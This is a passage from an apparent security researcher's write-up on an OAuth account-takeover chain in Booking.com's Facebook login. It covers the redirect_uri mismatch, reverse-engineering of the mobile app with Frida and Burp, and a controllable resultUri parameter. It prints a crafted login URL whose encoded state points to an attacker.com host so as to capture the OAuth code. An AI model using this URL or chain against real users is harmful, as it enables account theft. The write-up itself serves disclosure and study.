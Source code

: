 **Debugging the account takeover failure – what did we miss?**

From Facebook documentation, to exchange code with a token, Booking.com, in the back end, should use this API:

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd571e7a81cf6e69bbfead_16.png" alt=""><figcaption></figcaption></figure>

_In the documentation, Facebook wrote “This argument (redirect\_uri) must be the same as the **original** that you used when starting the OAuth login process”._

We started the OAuth login process with this link:

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=**eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**\&scope=email\&response\_type=token,code\&client\_id=210068525731476_

In this case, the **original** redirect\_uri is marked in purple.This link is the open redirection link from security gap 2.

However, in the back end, when Booking exchanges the code for a token using the _/oauth/access\_token_ API, it sends Facebook the hard-coded value “_https://account.booking.com/social/result/facebook_” as the redirect\_uri. This is the redirect\_uri that booking uses in the normal flow.

In the same OAuth flow, Facebook got two different redirect\_uri, got suspicious, and therefore threw an error.



**Finding security gap 3**

At this point, I couldn’t find a solution on the web, so I decided to do some research on the mobile application of Booking.com. I used Android studio, Frida (to bypass SSL pinning) and a decompiler to read the code responsible for OAuth on that app.

For intercepting the request between the mobile application and Booking.com backend, I used Burp.

The diagram of exchanges on the mobile app is a little confusing – you can focus just on Step 6:

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd57da007a93428ffeeae6_18.png" alt=""><figcaption></figcaption></figure>

The OAuth flow in the mobile app has one major difference from the flow on the website – Step 6.

Steps 3 to 6: The code was passed to the mobile application, and then the mobile Application sent it to Booking.com. To be more accurate, the code was passed to Chrome->Booking.com->MobileApp->Booking.com

I’m not sure why this ping-pong is necessary.

Step 6: The mobile app passes the code to Booking.com using a post request:

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd582a64e9fab78f869171_19.png" alt=""><figcaption></figcaption></figure>

**Pay attention to resultUri. Can you guess what Booking does with it?**

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd5851985f4a6e63d11841_20.png" alt=""><figcaption></figcaption></figure>

If Booking.com uses resultURi as the redirect\_uri to exchange code with token, and we can control this value, then we can bypass the validation of Facebook.
